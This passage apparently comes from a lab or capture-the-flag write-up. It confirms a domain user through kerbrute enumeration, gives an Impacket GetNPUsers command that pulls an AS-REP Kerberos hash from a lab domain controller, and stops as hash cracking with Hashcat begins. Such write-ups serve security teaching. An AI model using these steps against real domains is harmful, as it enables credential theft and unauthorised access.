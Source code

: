 ![kerbrute_users_updated](screenshots/kerbrute_users_updated.png)

We confirm the existence of **fsmith**.

---
### 3.2 Extracting AS-REP Hash

Using Impacket:

```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users -dc-ip 10.10.10.175
```

![getnpusers_users](screenshots/getnpusers_users.png)

We obtain an AS-REP hash for `fsmith`.

---
### 3.3 Cracking the Hash

Using Hashcat mode `18200` (Kerberos 5 AS-REP):
